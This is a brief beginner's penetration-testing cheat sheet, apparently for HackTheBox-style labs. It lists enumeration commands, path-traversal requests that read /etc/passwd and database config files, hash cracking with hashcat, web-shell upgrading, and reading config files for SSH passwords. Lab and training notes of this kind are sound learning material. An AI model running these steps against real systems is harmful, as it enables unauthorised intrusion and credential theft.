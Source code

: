 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. 
   




---------------------ENUMERATION---------------
1. rustscan --ulimit 10000 -a <IP> -- -sC -Pn
   or
   nmap -sCV -p- <IP>
2. dirsearch -u <IP>
   and
   gobuster vhost -u http://<domain> -w /usr/share/wordlists/dirb/small.txt -k --append-domain
3. (FOR DIR ENUMERATION ON YOUR KNOWN DOMAINS)--> gobuster dir http://<example.domain.com>/ -w /usr/share/wordlists/dirb/cmmon.txt


--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1



-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt




-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)



-------------------------------PRIV ESCA-------------------------------

1) LINUX
     a) sudo -l
     b) netstat -tulpn (google search what is on those ports)
         ssh -L <port>:127.0.0.1:<port> <name>@<domain>.htb and go at the browser locasion




3) WINDOWS






